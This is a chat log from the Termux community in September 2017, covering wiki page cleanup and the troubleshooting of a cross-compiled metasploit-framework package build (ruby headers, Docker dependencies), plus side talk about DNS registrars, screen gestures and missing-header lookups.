2017-09-08 02:31:51	Auxilus	hey danpalm , sure we can use your assistance , stay tuned to git , if you feel that you can make termux better , feel free to open PR

2017-09-08 02:33:53	frumpylava	I also think we should create a Page to link to pages like Jekyll. Maybe something like List of [Ruby|Python|nodejs] Packages known to work. What do you think?

2017-09-08 02:34:28	Auxilus	sure , that'd clear up some mess

2017-09-08 02:34:57	Auxilus	also me and g093 had an argument over 'is termux a gui or not'

2017-09-08 02:35:07	frumpylava	Auxilus: Sure can you link me the current build script? Possibly the "raw" link if it doesn't have patches?

2017-09-08 02:36:18	Auxilus	sure , wait a sec..

2017-09-08 02:37:31	Auxilus	here..

2017-09-08 02:37:32	frumpylava	I think Termux HAS a gui, but Termux isn't a gui. The drawer and long press menu clearly is a gui, but you can use termux entirely without the gui, via ssh from a TTY only computer.

2017-09-08 02:37:40	Auxilus	https://raw.githubusercontent.com/Auxilus/termux-packages/df966dabfe2e99b1045dda79ea0507f4f73069b8/packages/metasploit-framework/build.sh

2017-09-08 02:38:30	Auxilus	yeah so do we need to mention GUI in HOW TO USE TERMUX section on main_page ?

2017-09-08 02:39:05	Auxilus	cz its not THAT much of gui , it doesnt directly interact with the env

2017-09-08 02:39:33	frumpylava	Auxilus the very first item in that sectio is User_Interface, describing exactly how to use the drawer and the long press menu

2017-09-08 02:39:42	frumpylava	Is that not enough?

2017-09-08 02:40:00	Auxilus	yeah , thats what i tried to tell him tho

2017-09-08 02:40:08	frumpylava	Auxilus: That link still works https://tmate.io/t/ro-jqGnv00vKRC7WJ8PsbcwAo0um

2017-09-08 02:40:13	Auxilus	ty

2017-09-08 02:45:46	Auxilus	frumpylava : you thought over protecting pages ?

2017-09-08 02:47:12	 *	Auxilus hopes build script succseeds

2017-09-08 02:47:44	gitter	(Auxilus) Sry I spelled that wromg

2017-09-08 02:47:46	gitter	(Auxilus) Again

2017-09-08 02:47:50	gitter	(Auxilus) *wrong

2017-09-08 02:48:45	frumpylava	hmm... as soon as I start protecting pages, poeple will hound me about becoming administrators and as of now not so many bad things have been done.

2017-09-08 02:49:27	Auxilus	😂

2017-09-08 02:51:16	Auxilus	frumpylava : I think there is some stuff in Editors section , packages that havnt been yet tested ( afaik )

2017-09-08 02:51:33	Auxilus	also there are search links from duckduckgo

2017-09-08 02:52:06	frumpylava	Oh yeah, I really don't like the duck duck go links.

2017-09-08 02:52:14	Auxilus	im kinda not happy with putting searchlinks on WIKI page

2017-09-08 02:53:42	Auxilus	you think we should create a page with list of packages that work in termux ?

2017-09-08 02:54:31	frumpylava	hmm.. would that also include all the apt packages?

2017-09-08 02:55:24	Auxilus	what do you mean by apt pages ?

2017-09-08 02:55:35	Auxilus	like link to ruby python etc

2017-09-08 02:55:37	Auxilus	?

2017-09-08 02:56:54	frumpylava	As I set earlier I think we should have a pages named "List of [Ruby|Python|nodejs] Packages known to work".

2017-09-08 02:56:59	frumpylava	*said

2017-09-08 02:57:55	Auxilus	sounds good !

2017-09-08 02:57:56	frumpylava	I'm just unsure if we need a page for all the apt packages Since they all work, otherwise they wouldn't be in the repository.

2017-09-08 03:00:12	Auxilus	we can add info somwhere which will be copy-paste of readme from termux-packages , on how to compile your own packages for termux

2017-09-08 03:00:23	Auxilus	may be on 'contribute to termux' page

2017-09-08 03:01:10	ema	hi there

2017-09-08 03:01:19	Auxilus	hey ema !

2017-09-08 03:01:28	ema	termux is awesome :)

2017-09-08 03:01:47	ema	I bought a chromebook yesterday and I'm enjoying it very much

2017-09-08 03:02:30	Auxilus	Nice to hear that !

2017-09-08 03:03:23	Auxilus	what do you use termux for ?

2017-09-08 03:04:00	ema	ssh onto my real computer and do everything there :)

2017-09-08 03:04:56	frumpylava	what is `au`? https://wiki.termux.com/wiki/Hex_Editors

2017-09-08 03:05:06	ema	the only downside so far is the copy-paste style, which seems more cumbersome than the usual linux approach of selecting some text with the mouse

2017-09-08 03:05:22	Auxilus	its sdrausty 's package

2017-09-08 03:05:25	Auxilus	from his repo

2017-09-08 03:06:11	frumpylava	Is it yet another alias for apt install?

2017-09-08 03:07:07	Auxilus	yeah

2017-09-08 03:07:19	Auxilus	but it does this backup kinda thing

2017-09-08 03:07:34	Auxilus	which stores downloaded deb files to external storage

2017-09-08 03:08:11	frumpylava	I see. I am now going to remove all mention of it on that page.

2017-09-08 03:10:40	frumpylava	I think all instructions for installing things should be `pkg install {}`, as it is the officially recommended way. We can explain about apt on certain pages. `au` can have it's own page, with explanations on how to install and use it.

2017-09-08 03:11:19	Auxilus	want me to change all apt install to pkg install ?

2017-09-08 03:11:26	Auxilus	i can do that if you want..

2017-09-08 03:12:53	Auxilus	Ive also added some stuff for main termux.com , created PR on termux.github.com

2017-09-08 03:13:46	frumpylava	Auxilus: Thanks. That would be great. No rush though. `apt install` bothers me less thau `au`, as it at least works in 99% of cases.

2017-09-08 03:14:03	frumpylava	*than

2017-09-08 03:14:21	Auxilus	there is screenshot on https://wiki.termux.com/wiki/FAQ

2017-09-08 03:14:28	Auxilus	I domt know what that is ..

2017-09-08 03:18:46	frumpylava	hmm... is it a screenshot about the search for "question" in the irc logs?

2017-09-08 03:18:53	Auxilus	I see you have already done apt - pkg for some pages..

2017-09-08 03:19:12	Auxilus	https://wiki.termux.com/wiki/Multimedia_Editors

2017-09-08 03:19:24	Auxilus	containg duckduckgo search links

2017-09-08 03:22:41	Auxilus	https://wiki.termux.com/wiki/Ffi this page has low content

2017-09-08 03:22:49	frumpylava	Yeah, perhaps they can be replaced my {{incomplete}}

2017-09-08 03:23:55	Auxilus	can you do it ?

2017-09-08 03:24:32	frumpylava	done

2017-09-08 03:25:43	Auxilus	https://wiki.termux.com/wiki/Jekyll

2017-09-08 03:25:57	Auxilus	this has low content

2017-09-08 03:28:35	Auxilus	frumpylava : I don't think https://wiki.termux.com/wiki/Nokogiri has to be a sep page

2017-09-08 03:28:51	Auxilus	cz nokogiri installation is covered in metasploit page

2017-09-08 03:29:26	Auxilus	https://wiki.termux.com/wiki/OTG has to be added as {{incomplete}}

2017-09-08 03:30:23	frumpylava	hmm... but people use nokogiri outside of metasploit. So I think it should remain. Maybe Metasploit can just link to nokogiri?

2017-09-08 03:31:59	Auxilus	yeah but installation of nokogiri should be on metasploit page also

2017-09-08 03:32:34	Auxilus	https://wiki.termux.com/wiki/Packages

2017-09-08 03:32:48	Auxilus	what about this ?

2017-09-08 03:33:04	frumpylava	uhmm....

2017-09-08 03:34:21	frumpylava	better?

2017-09-08 03:34:33	Auxilus	i think https://wiki.termux.com/wiki/Ruby-FFI can be merged with https://wiki.termux.com/wiki/ffi

2017-09-08 03:36:39	frumpylava	Let me set up the package lists. we don't actaully need pages like ffi and ruby-ffi if they just work.

2017-09-08 03:37:36	Auxilus	yeah..

2017-09-08 03:40:27	Auxilus	frumpylava : I'm done replacing `apt` with `pkg`

2017-09-08 03:40:36	frumpylava	cool thanks

2017-09-08 03:41:07	Auxilus	hey

2017-09-08 03:41:17	Auxilus	whats wrong with the build process ?

2017-09-08 03:41:34	Auxilus	it shows 100% then again drops down to 65%

2017-09-08 03:42:32	frumpylava	I think those are sub processes that quickly go from 0-100, while the main process is very slow.

2017-09-08 03:43:09	Auxilus	kk

2017-09-08 03:48:34	Auxilus	frumpylava : how long you gonna be online ?

2017-09-08 03:48:59	frumpylava	a few hours?

2017-09-08 03:50:21	Auxilus	k

2017-09-08 03:55:02	Auxilus	frumpylava : do you have experiance in package building ?

2017-09-08 03:55:59	frumpylava	yeah, I built a few small packages.

2017-09-08 03:56:31	frumpylava	Auxilus: What do you think of this https://wiki.termux.com/wiki/List_of_Ruby_packages_known_to_work

2017-09-08 03:58:16	Auxilus	there is one prob

2017-09-08 03:58:38	Auxilus	if you see gemfile.lock from metasploit..there are TONs of ruby packaves

2017-09-08 03:58:48	Auxilus	are we gonna add each one of 'em

2017-09-08 03:58:52	Auxilus	?

2017-09-08 03:59:34	Auxilus	but I like the page structure..

2017-09-08 04:00:04	Auxilus	we can add network_interface rbnacl-libsodium etc etc etc

2017-09-08 04:00:38	frumpylava	Auxilus I don't think we should add all packages. Most are only dependencies of other programs. We should only add major, standalone programs.

2017-09-08 04:01:23	Auxilus	sounds ok to me 👍

2017-09-08 04:01:59	frumpylava	"List of Ruby PROGRAMS known to work" maybe?

2017-09-08 04:02:42	Auxilus	why programs ?

2017-09-08 04:02:44	frumpylava	Maybe also thinks like nokogiri, which is a dependency to many programs, but requires special instrucions.

2017-09-08 04:03:11	frumpylava	So that it's clear that it's about major, standalone programs?

2017-09-08 04:03:21	Auxilus	can we package a gem to get installed using apt ?

2017-09-08 04:03:41	Auxilus	we can use standalone 'gems'

2017-09-08 04:03:49	frumpylava	Auxilus: I don't know

2017-09-08 04:04:15	Auxilus	imma see if i can package rbnacl-libsodium..

2017-09-08 04:30:28	gitter	(Auxilus) https://github.com/termux/termux-packages/pull/1400

2017-09-08 04:43:02	gitter	(Auxilus) Frumpylava is it building all deps again?

2017-09-08 04:43:13	gitter	(Auxilus) I thought your machine has it cached

2017-09-08 04:44:03	frumpylava	it should only build new dependencies, or those that have been updated since (sorry the last time we built I forgot to pull in recent changes)

2017-09-08 04:44:24	frumpylava	@sdrausty By the way https://sdrausty.github.io/logs/ircFreenodeTermuxWeechatlog violates the freenode policies on public logging https://freenode.net/policies#public-logging

2017-09-08 04:46:28	gitter	(Auxilus) Sry my bad, it is building new deps..

2017-09-08 04:47:25	gitter	(Auxilus) frumpylava : can you please take a look at https://github.com/termux/termux-packages/pull/1400 and tell me whats wrong with it?

2017-09-08 04:51:59	frumpylava	@Auxilus I suspect gem install doesn't actually work while cross compiling, because it uses the host's ruby and not the target's ruby. I think you just can't use gem to build your package. But I might be wrong.

2017-09-08 05:08:48	timwr	frumpylava, why would it not, the env variable should make it build for aarch64 no?

2017-09-08 05:12:14	gitter	(Auxilus) How do i change runy headerfile path in gem install?

2017-09-08 05:12:18	frumpylava	timwr: hmm... I doubt it. Then again, I don't know very much about ruby. are the gems platform independent? All I know is that all the python packages in the repository are marked as platform independent.

2017-09-08 05:12:28	gitter	(Auxilus) Is there any way to do that?

2017-09-08 05:12:51	gitter	(Auxilus) ?

2017-09-08 05:12:52	timwr	there are native gems, so not platform independent

2017-09-08 05:13:03	gitter	(Auxilus) timwr

2017-09-08 05:13:26	gitter	(Auxilus) Is there any way to include headerfile path option while installing the gem?

2017-09-08 05:14:57	timwr	Auxilus, --with-opt-include somethign?

2017-09-08 05:15:21	timwr	 --with-opt-include  ?

2017-09-08 05:15:35	gitter	(Auxilus) Lemme try it

2017-09-08 05:15:35	timwr	e.g gem install puma -- --with-opt-include=/usr/local/opt/openssl/include`

2017-09-08 05:15:41	timwr	I just googled it, not tested

2017-09-08 05:15:45	timwr	why do you need it though?

2017-09-08 05:16:00	gitter	(Auxilus) Here take a loom

2017-09-08 05:16:02	gitter	(Auxilus) https://tmate.io/t/ro-jqGnv00vKRC7WJ8PsbcwAo0um

2017-09-08 05:16:21	gitter	(Auxilus) Everything is working, just it cant find the header file

2017-09-08 05:16:58	gitter	(Auxilus) How do I prompt docker to use ruby 2.4.0?

2017-09-08 05:17:04	gitter	(Auxilus) rvm?

2017-09-08 05:17:44	timwr	nice dude

2017-09-08 05:17:56	timwr	is that at build time? how?

2017-09-08 05:18:34	gitter	(Auxilus) Yeah its running on frumpylava 's machine

2017-09-08 05:18:58	gitter	(Auxilus) I think rvm needs to change current ruby version to 2.4.0 inside the build process

2017-09-08 05:19:15	gitter	(Auxilus) Something like `rvm use 2.4.0`

2017-09-08 05:20:10	gitter	(Auxilus) Problem is there ain't no command called rvm inside the container

2017-09-08 05:22:44	gitter	(Auxilus) frumpylava can you restart the build?

2017-09-08 05:23:08	gitter	(Auxilus) https://raw.githubusercontent.com/Auxilus/termux-packages/8c3274e0d1b1618e1139e98d0b0368fca9c06788/packages/metasploit-framework/build.sh

2017-09-08 05:24:08	frumpylava	k

2017-09-08 05:25:36	gitter	(Auxilus) Trnowy

2017-09-08 05:25:41	gitter	(Auxilus) No wait...

2017-09-08 05:36:18	gitter	(Auxilus) Try now..

2017-09-08 05:37:49	frumpylava	link?

2017-09-08 05:38:17	gitter	(Auxilus) Wait...

2017-09-08 05:38:54	gitter	(Auxilus) https://raw.githubusercontent.com/Auxilus/termux-packages/79f61c82db17c06e69f709e2be9291fa49db1bfb/packages/metasploit-framework/build.sh

2017-09-08 05:40:02	gitter	(Auxilus) Arghhh

2017-09-08 05:45:37	gitter	(Auxilus) Man...

2017-09-08 05:45:45	gitter	(Auxilus) Dont clear the scre

2017-09-08 05:45:59	gitter	(Auxilus) K now..

2017-09-08 05:48:50	gitter	(Auxilus) Here..

2017-09-08 05:48:53	gitter	(Auxilus) https://raw.githubusercontent.com/Auxilus/termux-packages/942e5a2b7403b51979d3c5fc03ae80c4b14cf759/packages/metasploit-framework/build.sh

2017-09-08 05:51:05	gitter	(Auxilus) Try now..

2017-09-08 05:53:49	frumpylava	k

2017-09-08 05:57:47	gitter	(Auxilus) Imma create new issue

2017-09-08 05:58:10	gitter	(Auxilus) frumpylava : Ty for helping

2017-09-08 06:42:23	Auxilus	frumpylava : you there ?

2017-09-08 06:46:24	Auxilus	?

2017-09-08 06:48:29	Auxilus	@Grimler91

2017-09-08 06:49:21	Auxilus	why https://github.com/termux/termux-packages/pull/1400 is not downloading anything ( not even container image ) ?

2017-09-08 06:56:00	Auxilus	any1 ?

2017-09-08 06:56:49	live_the_dream	>

2017-09-08 06:57:12	live_the_dream	my box is realky unstable when not under load...

2017-09-08 06:57:18	live_the_dream	keeps crashing

2017-09-08 06:57:35	live_the_dream	idling is death

2017-09-08 07:19:29	frumpylava	@Auxilus yeah?

2017-09-08 07:35:47	Auxilus	try now

2017-09-08 07:35:53	Auxilus	wait ill give link

2017-09-08 07:38:26	Auxilus	https://raw.githubusercontent.com/Auxilus/termux-packages/08bca9c9c3e0615d9175353de57fe57ba5d120b0/packages/metasploit-framework/build.sh

2017-09-08 07:39:34	frumpylava	k

2017-09-08 07:47:13	Auxilus	@Grimler91 still got that error ..

2017-09-08 07:47:22	Auxilus	is $PREFIX/include/ruby-2.4.0/ruby.h  even there ?

2017-09-08 07:50:17	frumpylava	Auxilus: Yes

2017-09-08 07:51:37	Auxilus	its thr ?

2017-09-08 07:52:13	Auxilus	yeah , its thr

2017-09-08 07:52:34	Auxilus	lemme see if symlinking is working..

2017-09-08 08:00:09	Auxilus	frumpylava

2017-09-08 08:00:11	Auxilus	https://raw.githubusercontent.com/Auxilus/termux-packages/3e8aaa4df5c4f8bf7a3a3cb4663980019c3ed1fe/packages/metasploit-framework/build.sh

2017-09-08 08:00:14	Auxilus	try now...

2017-09-08 08:01:19	frumpylava	k

2017-09-08 08:19:23	Auxilus	frumpylava..

2017-09-08 08:19:48	Auxilus	try now , it should work now..

2017-09-08 08:19:51	Auxilus	https://raw.githubusercontent.com/Auxilus/termux-packages/2d001b503720e3621b637ac3e716a99a0661a926/packages/metasploit-framework/build.sh

2017-09-08 08:21:58	Auxilus	frumpylava , what is wrong thr ?

2017-09-08 08:22:35	Auxilus	i have `ln -s $TERMUX_PREFIX/include/ruby-2.4.0/ruby.h /usr/lib/ruby/include/`

2017-09-08 08:22:57	Auxilus	how come there is no dir called /usr/lib/ruby/include/

2017-09-08 08:22:59	Auxilus	?

2017-09-08 08:23:32	Auxilus	should I use $TERMUX_PREFIX/lib/ruby/include/  ?

2017-09-08 08:23:33	frumpylava	well, it ain't there

2017-09-08 08:24:23	Auxilus	shit..there's gotta be some way..

2017-09-08 08:24:38	Auxilus	This is the only problem rem in the build

2017-09-08 08:30:29	Auxilus	I tried searching on google but can't find soln

2017-09-08 08:59:56	Auxilus	frumpylava ...

2017-09-08 09:00:12	frumpylava	yeah?

2017-09-08 09:00:18	Auxilus	try now..

2017-09-08 09:00:26	Auxilus	https://raw.githubusercontent.com/Auxilus/termux-packages/feae59207fe7ae620da45c1cb1e7a8aa35ad605a/packages/metasploit-framework/build.sh

2017-09-08 09:01:21	Auxilus	crap crap crap

2017-09-08 09:01:28	Auxilus	wait

2017-09-08 09:01:43	Auxilus	grimler has reply on my issue..

2017-09-08 09:01:50	Auxilus	you gonna be online for a while ri8 ?

2017-09-08 09:02:46	frumpylava	yeah. Altough I'll be offline for about 1h30 in 2 hours.

2017-09-08 09:05:37	Auxilus	here

2017-09-08 09:05:39	Auxilus	try now

2017-09-08 09:05:41	Auxilus	https://raw.githubusercontent.com/Auxilus/termux-packages/4dec3b8392e8ab534c398aa94631b77e592886a6/packages/metasploit-framework/build.sh

2017-09-08 09:06:08	frumpylava	k

2017-09-08 09:07:32	Auxilus	hey grimler

2017-09-08 09:07:39	Auxilus	still not working

2017-09-08 09:07:41	Auxilus	https://tmate.io/t/ro-jqGnv00vKRC7WJ8PsbcwAo0um

2017-09-08 09:09:40	Auxilus	also it says no dir when i do symlink to $TERMUX_PREFIX/lib/ruby/include/

2017-09-08 09:10:02	Auxilus	Do I have to create $TERMUX_PREFIX/lib/ruby/include/ ?

2017-09-08 09:22:12	Auxilus	frumpylava ..

2017-09-08 09:22:27	Auxilus	try now..

2017-09-08 09:22:28	Auxilus	https://raw.githubusercontent.com/Auxilus/termux-packages/3c73cfb07b027e08c48de272b9a9a46ec49e556b/packages/metasploit-framework/build.sh

2017-09-08 09:23:49	frumpylava	k

2017-09-08 09:24:18	Grimler	Where did you get the idea that if should be $TERMUX_PREFIX/lib/ruby/include/ from? $TERMUX_PREFIX/include/ is the place to put the header in

2017-09-08 09:25:22	Grimler	Or am I missing something?

2017-09-08 09:25:33	Auxilus	yeah but see error..https://tmate.io/t/ro-jqGnv00vKRC7WJ8PsbcwAo0um

2017-09-08 09:25:54	Auxilus	it says "mkmf.rb can't find header files for ruby at /usr/lib/ruby/include/ruby.h

2017-09-08 09:25:55	Auxilus	        

2017-09-08 09:27:11	Auxilus	please help me out man..

2017-09-08 09:29:01	Auxilus	Grimler..you thr ?

2017-09-08 09:30:14	Grimler	ah, right. Since you're using the docker image's ruby, it probably wants/needs to use the docker image dev package. So you need to do `sudo apt-get install -y ruby-dev` I guess

2017-09-08 09:30:52	Auxilus	inside the docker ?

2017-09-08 09:31:16	Grimler	(I still think that this package won't work on device due to ruby not knowing that we are suppose to be cross-compiling)

2017-09-08 09:31:23	Grimler	yeah, you can add it in the build.sh I guess

2017-09-08 09:34:07	Auxilus	okay ill add ruby and ruby-dev both

2017-09-08 09:34:27	Auxilus	but hey , will the apt tools work inside the docker ?

2017-09-08 09:36:55	Grimler	Well, they do in docker on normal linux, I don't see why travis would be different

2017-09-08 09:37:25	Grimler	but it's ubuntu's apt, not termux's apt

2017-09-08 09:37:35	Grimler	ruby-dev depends on ruby so only need to add taht

2017-09-08 09:38:13	Auxilus	frumpylava

2017-09-08 09:38:16	Auxilus	https://raw.githubusercontent.com/Auxilus/termux-packages/bb0d6ea72b33d7256d8c9d0854e9a99c06ebe142/packages/metasploit-framework/build.sh

2017-09-08 09:38:19	frumpylava	Auxilus: And you'd only do it temporarily in your build.sh. If it works you'd have to add it in setup-ubuntu.sh https://github.com/termux/termux-packages/blob/master/scripts/setup-ubuntu.sh

2017-09-08 09:41:02	Auxilus	we need to add repo maybe ???

2017-09-08 09:41:11	Auxilus	or do apt update first

2017-09-08 09:41:26	Grimler	apt update probably

2017-09-08 09:44:33	Auxilus	frumpylava

2017-09-08 09:44:52	Auxilus	maybe you need to do `apt update` first

2017-09-08 09:45:18	frumpylava	Why don't you do that in build.sh?

2017-09-08 09:46:14	frumpylava	If I start to doctor around my docker container to get it to work, it won't work reproducibly.

2017-09-08 09:48:04	Auxilus	sure..

2017-09-08 09:48:24	Grimler	Auxilus: I think you should read a bit about cross-compilation, for example at this wiki page: http://wiki.osdev.org/Why_do_I_need_a_Cross_Compiler%3F and/or here https://en.wikipedia.org/wiki/Cross_compiler to understand a bit more about the problems this build faces

2017-09-08 09:48:48	Auxilus	here ...https://raw.githubusercontent.com/Auxilus/termux-packages/bb0d6ea72b33d7256d8c9d0854e9a99c06ebe142/packages/metasploit-framework/build.sh

2017-09-08 09:49:02	frumpylava	*tamper (sorry "doctoring around" was a literal translation of german that possibly doesn't exist in english)

2017-09-08 09:49:23	Auxilus	?????

2017-09-08 09:50:38	Auxilus	oops

2017-09-08 09:50:44	Auxilus	forgit to put apt update

2017-09-08 09:50:47	Auxilus	sryyyyy

2017-09-08 09:52:02	Auxilus	here...

2017-09-08 09:52:05	Auxilus	https://raw.githubusercontent.com/Auxilus/termux-packages/c50b10ceb0f0f024cd37403fc6ce1a3ef801c958/packages/metasploit-framework/build.sh

2017-09-08 09:53:49	Auxilus	can you zoom out a bit..

2017-09-08 09:53:49	Auxilus	?

2017-09-08 09:54:11	g093	frumpylava: can you use the Talk pages on the wiki please?

2017-09-08 09:54:26	Auxilus	i gotta see log bro..

2017-09-08 09:54:40	Auxilus	scroll up a bit

2017-09-08 09:59:45	frumpylava	g093: What are you refering to specifically?

2017-09-08 10:00:41	frumpylava	I still find the talk page feature of wikimedia to be very confusing.

2017-09-08 10:00:56	Auxilus	frumpylava :

2017-09-08 10:01:07	Auxilus	I need to see log...

2017-09-08 10:01:13	Auxilus	I cant see whole thing..

2017-09-08 10:01:52	Auxilus	hey man , can you gimme ssh ?

2017-09-08 10:03:00	g093	frumpylava: https://wiki.termux.com/wiki/Talk:Main_Page and

2017-09-08 10:03:24	g093	https://wiki.termux.com/wiki/User_talk:Glow

2017-09-08 10:04:09	g093	and similar.

2017-09-08 10:04:54	frumpylava	Auxilus: http://sprunge.us/UFWN

2017-09-08 10:05:33	Auxilus	frumpylava , what ruby version got installed ? 2.3 or 2.4

2017-09-08 10:05:46	frumpylava	Auxilus: I won't give you SSH. You should consider renting a VPS

2017-09-08 10:06:06	Auxilus	np

2017-09-08 10:06:17	frumpylava	2.3

2017-09-08 10:06:18	gitter	(sdrausty) Flumpylava:

2017-09-08 10:06:44	gitter	(sdrausty) Where is wiki.termux.com hosted

2017-09-08 10:06:58	gitter	(sdrausty) The dns, the registry

2017-09-08 10:07:57	gitter	(sdrausty) I am not too enthusiastic about Godaddy; So asking about dns provider .

2017-09-08 10:08:00	gitter	(sdrausty) please

2017-09-08 10:08:06	frumpylava	@sdrausty I don't know about the dns and the registry. Fornwall manages that.

2017-09-08 10:08:28	gitter	(sdrausty) tnx

2017-09-08 10:08:58	frumpylava	Also, I host it myself. It's not hosted at a cloud provider.

2017-09-08 10:10:54	gitter	(sdrausty) Frumpylava : On you own box?

2017-09-08 10:13:14	gitter	(sdrausty) Do you know of a dns registry your satisfied with using?

2017-09-08 10:14:01	gitter	(sdrausty) Like I mentioned, I am not enthusiastic about the one I have now.

2017-09-08 10:14:20	gitter	(sdrausty) you own *your own

2017-09-08 10:14:29	frumpylava	No. It is running on a virtual server. It's running in a datacenter in Bern, but I do have physical access to the host it's running on. The company I work for rents a rack in a colocation.

2017-09-08 10:14:44	frumpylava	All dns registrar suck.

2017-09-08 10:14:52	frumpylava	But try hover.com

2017-09-08 10:14:52	gitter	(sdrausty) lol

2017-09-08 10:15:41	gitter	(sdrausty) The free one in Denver Colorado was way cool.

2017-09-08 10:16:04	gitter	(sdrausty) Thank you. I will give it a glance.

2017-09-08 10:17:49	gitter	(sdrausty) We had complete access to our dns config files at that Denver Colorado dns... Way cool.

2017-09-08 10:18:39	frumpylava	Sorry, I don't know anything about 3rd party dns providers. We host our own name servers.

2017-09-08 10:19:58	Auxilus	here

2017-09-08 10:20:02	Auxilus	https://raw.githubusercontent.com/Auxilus/termux-packages/2af7e30c0305b7699fa9349fe7a9c28080fb9a42/packages/metasploit-framework/build.sh

2017-09-08 10:20:43	frumpylava	k

2017-09-08 10:22:32	Auxilus	here..https://raw.githubusercontent.com/Auxilus/termux-packages/6519c01784479608b32ac2092894233399b1e883/packages/metasploit-framework/build.sh

2017-09-08 10:24:48	frumpylava	k

2017-09-08 10:25:52	Auxilus	https://raw.githubusercontent.com/Auxilus/termux-packages/0b1ee6d6d1335fcea5c241092d5faa8308a7674c/packages/metasploit-framework/build.sh

2017-09-08 10:29:14	frumpylava	g093: Alright, I answered your questions in on the Main Page. Please use the signature button in the future, when writing on talk pages.

2017-09-08 10:32:14	Auxilus	frumpylava , ty for helping me today man ,

2017-09-08 10:32:40	Auxilus	can you please dump all the work ( from your box ) and put it somewhere ?

2017-09-08 10:33:14	frumpylava	Auxilus: What do you mean "all the work"?

2017-09-08 10:34:14	Auxilus	i mean the logs of docker

2017-09-08 10:34:24	Auxilus	atleast latest one

2017-09-08 10:34:30	Auxilus	*lst one

2017-09-08 10:34:51	gitter	(sdrausty) Dump of the wiki too please frumpylava.

2017-09-08 10:35:06	frumpylava	@sdrausty no.

2017-09-08 10:35:18	gitter	(sdrausty) why?

2017-09-08 10:35:18	frumpylava	Auxilus: http://sprunge.us/GXjB

2017-09-08 10:35:30	Auxilus	ty frumpylava ..l

2017-09-08 10:35:42	frumpylava	@sdrausty The database contains sensitive informations (E-mail adresses for example) of users

2017-09-08 10:36:04	gitter	(sdrausty) sed out the email part please

2017-09-08 10:37:18	gitter	(sdrausty) What I am trying to express is that it would be terrific to work with as on file, on device.

2017-09-08 10:38:33	gitter	(sdrausty) on *one

2017-09-08 10:39:24	gitter	(sdrausty) No captch...

2017-09-08 10:39:58	gitter	(sdrausty) No "dialogue box" with "buttons"...

2017-09-08 10:50:24	frumpylava	@sdrausty You can use this if you want an offline copy of the wiki: wget --recursive --no-clobber --page-requisites --html-extension --convert-links --no-parent http://wiki.termux.com --domains=wiki.termux.com

2017-09-08 10:55:31	g093	Anyone willing to contribute to https://wiki.termux.com/wiki/Hardware_Mouse i.e. Screen Gestures?

2017-09-08 10:56:22	frumpylava	Hmm... I don't know of any screen gestures.

2017-09-08 11:00:09	gitter	(sdrausty) Frumpylava : v tnx lol

2017-09-08 11:00:42	g093	tap

2017-09-08 11:00:50	g093	tapx2

2017-09-08 11:00:59	g093	long tap

2017-09-08 11:01:05	g093	short tap

2017-09-08 11:01:19	g093	slide

2017-09-08 11:02:16	frumpylava	What do tap,tabx2 and short tap do?

2017-09-08 11:02:44	frumpylava	Also, isn't most of that already covered on https://wiki.termux.com/wiki/User_Interface

2017-09-08 11:04:43	g093	https://wiki.termux.com/wiki/User_Interface has much more than Android gestures.

2017-09-08 11:05:47	g093	long tap pops up the context menu

2017-09-08 11:06:18	g093	what does short tap do in Termux?

2017-09-08 11:06:31	frumpylava	nothing

2017-09-08 11:07:02	frumpylava	It gets passed through to the terminal

2017-09-08 11:07:17	g093	where are these screen gestures in https://github.com/termux/termux-app

2017-09-08 11:08:40	gitter	(sdrausty) 20M dump

2017-09-08 11:08:58	gitter	(sdrausty) Thank you frumpylava! ☺

2017-09-08 11:09:06	frumpylava	g093: https://github.com/termux/termux-app/blob/master/terminal-view/src/main/java/com/termux/view/TerminalView.java#L80

2017-09-08 11:09:23	g093	cool tnx

2017-09-08 12:06:02	gitter	(masterkorp) have any of you guys ever tried to setup routersploit on termux

2017-09-08 12:06:35	gitter	(masterkorp) ?

2017-09-08 12:45:40	gitter	(masterkorp) I am trying do a pip2 install -r requirements

2017-09-08 12:45:41	gitter	(masterkorp) unable to execute 'aarch64-linux-android-gcc': No such file or directory

2017-09-08 13:18:25	gitter	(Auxilus) @masterkorp no man, never tried it..

2017-09-08 13:21:57	gitter	(masterkorp) I am having troubles using gcc to install pynacl

2017-09-08 13:22:13	gitter	(sdrausty) @masterkorp apt install clang

2017-09-08 13:22:59	gitter	(sdrausty) $ dpkg -S aarch64-linux-android-gcc

2017-09-08 13:22:59	gitter	(sdrausty) clang: /data/data/com.termux/files/usr/bin/aarch64-linux-android-gcc

2017-09-08 13:23:24	gitter	(Auxilus) Anyone has experience in gem installation and package compilation?

2017-09-08 13:23:25	gitter	(masterkorp) Hmmm, gona try that, thanks

2017-09-08 19:38:30	gitter	(masterkorp) Guys is there a tool such as apt-file here?

2017-09-08 19:39:41	gitter	(masterkorp) I am trying to compile some code, and i am always hitting on missing header files and i am having struggle trying to find which package contains that file

2017-09-08 19:40:59	gitter	(masterkorp) With apt-file I would do something like: ``apt-file search ffi.h`` and that would indicate me that file is on the ``libffi-dev``

2017-09-08 19:41:12	gitter	(masterkorp) There is probably a way to do this

2017-09-08 19:41:22	gitter	(masterkorp) Sugestions are welcome

2017-09-08 19:43:13	gitter	(masterkorp) Its like ``dpkg -S`` but for non installed packages

2017-09-08 19:45:52	g093	i was looking for `apt-file` today also @masterkorp

2017-09-08 19:45:53	gitter	(suryapoo) Morning!!!

2017-09-08 19:46:00	g093	hello

2017-09-08 19:46:00	gitter	(suryapoo) $ pry

2017-09-08 19:46:00	gitter	(suryapoo) [1] pry(main)> 1.method

2017-09-08 19:46:00	gitter	(suryapoo) ArgumentError: wrong number of arguments (given 0, expected 1)

2017-09-08 19:46:00	gitter	(suryapoo) [full message: https://gitter.im/termux/termux?at=59b32bb7210ac269200d1047]

2017-09-08 19:46:10	gitter	(suryapoo) Guys check this

2017-09-08 19:46:58	gitter	(suryapoo) When I do 1.methods..its giving me a Busybox error in pry

2017-09-08 19:47:05	gitter	(suryapoo) But it works I'm irb

2017-09-08 19:47:10	gitter	(suryapoo) In*

2017-09-08 20:16:07	gitter	(masterkorp) g093:  did you find any alternative?

2017-09-08 20:39:26	g093	dpkg -S @masterkorp

2017-09-08 20:41:45	g093	https://github.com/termux/termux-packages/issues?utf8=✓&q=apt-file

2017-09-08 23:09:35	gitter	(Auxilus) @fornwall Just opened PR https://github.com/termux/termux-app/pull/417/commits/0e3c32c9769834b89706143b9b371cac9bb189a3

2017-09-08 23:10:25	gitter	(Auxilus) I don't have idea if it also needs any backend code to handle toggleButton event..

2017-09-08 23:12:22	gitter	(Auxilus) Also i have

